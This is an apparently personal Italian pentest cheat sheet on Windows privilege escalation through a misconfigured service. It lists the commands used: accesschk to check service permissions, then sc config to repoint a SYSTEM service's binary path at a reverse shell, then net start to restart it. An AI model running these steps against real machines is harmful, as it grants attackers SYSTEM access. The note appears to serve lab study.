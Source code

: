 ### **Controlla i permessi del tuo utente su un servizio**
```powershell
accesschk.exe /accepteula -uwcqv <USER> <SERVICE>
```
![[Pasted image 20230503143654.png]]

==OCCHIO AI PERMESSI DI START E STOP (RIAVVIO DEL SERVIZIO)==

In questo caso c'è il permesso di cambiare i config del servizio
<h3>SERVICE_CHANGE_CONFIG</h3>
query il servizio
```powershell
sc qc daclsvc
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
Il servizio runna come system (SERVICE_START_NAME)
Modifica il BINARY_PATH_NAME in modo che punti ad una reverse shell o ad uno script personalizzato
```powershell
sc config daclsvc binpath= "\"<PATH>""
```
e restarta il servizio
```powershell
net start daclsvc
```